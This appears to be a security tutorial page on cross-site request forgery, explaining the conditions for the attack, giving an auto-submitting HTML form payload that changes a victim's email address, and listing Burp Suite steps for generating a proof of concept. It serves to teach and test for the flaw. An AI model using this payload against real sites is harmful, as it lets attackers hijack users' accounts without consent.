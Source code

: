 # Introduction

Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other.

For a CSRF attack to be possible, three key conditions must be in place:

- **A relevant action.** There is an action within the application that the attacker has a reason to induce. This might be a privileged action (such as modifying permissions for other users) or any action on user-specific data (such as changing the user's own password).

- **Cookie-based session handling.** Performing the action involves issuing one or more HTTP requests, and the application relies solely on session cookies to identify the user who has made the requests. There is no other mechanism in place for tracking sessions or validating user requests.
- **No unpredictable request parameters.** The requests that perform the action do not contain any parameters whose values the attacker cannot determine or guess. For example, when causing a user to change their password, the function is not vulnerable if an attacker needs to know the value of the existing password.

Although CSRF is normally described in relation to cookie-based session handling, it also arises in other contexts where the application automatically adds some user credentials to requests, such as HTTP Basic authentication and certificate-based authentication.

- Basic Payload to automatically submit the request when the web page opens.
    
    ```markdown
    <html>
      <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
          <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
          document.forms[0].submit();
        </script>
      </body>
    </html>
    ```
    

# Testing CSRF

## Base Steps:

```markdown
1. Select a request anywhere in Burp Suite Professional that you want to test or exploit.
2. From the right-click context menu, select Engagement tools / Generate CSRF PoC.
3. Burp Suite will generate some HTML that will trigger the selected request (minus cookies, which will be added automatically by the victim's browser).
4. You can tweak various options in the CSRF PoC generator to fine-tune aspects of the attack. You might need to do this in some unusual situations to deal with quirky features of requests.
5. Copy the generated HTML into a web page, view it in a browser that is logged in to the vulnerable web site, and test whether the intended request is issued successfully and the desired action occurs.
```
